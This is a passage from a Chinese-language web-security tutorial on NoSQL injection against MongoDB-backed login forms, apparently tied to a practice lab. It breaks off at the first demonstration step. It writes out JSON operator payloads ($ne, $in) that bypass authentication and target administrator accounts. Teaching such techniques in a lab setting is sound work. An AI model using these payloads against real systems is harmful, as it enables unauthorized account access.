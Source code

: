 如果不起作用，可以尝试以下操作：

-   将请求方法从 GET 转换为 POST
    
-   将内容类型标题更改为 application/json
    
-   将 JSON 添加到消息体
    
-   JSON 注入查询运算符
    

##### 

注入检测

考虑一个易受攻击的应用程序，在 POST 请求的正文中接受用户名和密码

```plain
{"username":"wiener","password":"peter"}
```

用一系列运算符测试每个输入，例如：要测试用户名输入是否处理查询运算符则可以尝试以下注入

```plain
{"username":{"$ne":"invalid"},"password":{"peter"}}
```

如果应用了$ne 运算符则会查询用户名不等于 invalid 的所有用户，如果用户名和密码输入都处理操作符，则可以使用以下有效载荷绕过身份验证

```plain
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

此查询返回用户名和密码不等于无效的所有登录凭据，因此你将作为集合中的第一个用户登录到应用程序，要以帐户为目标，您可以构造一个有效负载，其中包括已知用户名或您猜测的用户名，例如：

```plain
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

##### 演示示例

本靶场的登录功能由 MongoDB NoSQL 数据库提供，它很容易受到使用 MongoDB 操作符的 NoSQL 注入的攻击，请以管理员用户身份登录应用程序，你可以使用以下凭据登录到自己的帐户：wiener:peter

Step 1：使用上述凭据登录用户

![图片](assets/1711872140-25073f5a50dec8f34c5437f2f86bf2e3.png)
